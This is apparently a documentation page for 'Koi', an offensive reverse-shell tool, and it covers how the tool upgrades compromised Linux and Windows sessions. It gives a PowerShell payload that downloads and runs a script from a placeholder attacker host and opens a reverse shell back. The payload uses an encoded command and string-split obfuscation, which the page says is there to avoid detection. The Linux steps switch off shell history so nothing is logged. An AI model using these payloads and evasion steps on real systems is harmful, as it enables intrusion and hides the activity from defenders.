

repository: b3rt1ng/koi-wiki · page: upgrading-sessions/index.html · generator: mkdocs

# Upgrading Sessions

Koi allows you to automatically upgrade your sessions for both Linux and Windows.

## For Linux

The upgrade command tries three methods in order, falling back to the next if the previous one fails or is not available:

1. **`script`**, spawns a PTY using the `script` utility, available on virtually every Linux system:
   ```bash
   script -qc /bin/bash /dev/null
   ```
2. **`socat`**, if `script` is absent, tries `socat` as an alternative PTY spawner.
3. **Fallback**, if neither is available, runs `/bin/bash -i` or `/bin/sh -i` for a basic interactive shell without full PTY support.

After the PTY is established, Koi sets `TERM=xterm-256color`, disables history (`HISTSIZE=0 HISTFILESIZE=0`), and syncs the terminal window size.

!!! warning "Limitations"
    If none of these commands are available, or if the shell is too restricted, the upgrade will fail or produce a degraded shell. Alternative upgrade paths are planned, see [Future Updates](future-updates.md).

---

## For Windows

On Windows, Koi upgrades a raw reverse shell into a fully interactive PTY-like session using [ConPtyShell by antoniococo](https://github.com/antonioCoco/ConPtyShell).

The upgrade process is automatic and works as follows:

1. Koi downloads the latest `Invoke-ConPtyShell.ps1`
2. The script is cached locally for offline reuse
3. Koi obfuscates the PowerShell function name to reduce detections
4. A temporary HTTP server is spawned locally
5. The target downloads and executes the payload
6. A new interactive ConPTY session connects back

### How it works internally

Koi launches the following kind of command on the remote host:

```powershell
powershell -nop -ep bypass -enc <BASE64>
```

The base64 payload decodes to something like:

```powershell
&('Invoke-'+'Expression')(&(('{0}{1}'-f'Invoke-Web','Request') 'http://<IP>:<PORT>/c.ps1' -UseBasicParsing));
<OBFUSCATED_FUNCTION> -RemoteIp <IP> -RemotePort <PORT> -Rows <ROWS> -Cols <COLS> -CommandLine powershell
```

The outer command uses `-EncodedCommand` so no plaintext `IEX` or `IWR` appears on the command line. The inner payload uses randomised call obfuscation so cmdlet names are never literal strings.

### More details

#### Automatic caching

If GitHub is unreachable, Koi automatically falls back to the locally cached version of ConPtyShell.

#### Automatic terminal sizing

The current terminal dimensions are detected automatically and passed to ConPtyShell so the remote PTY matches your local console.
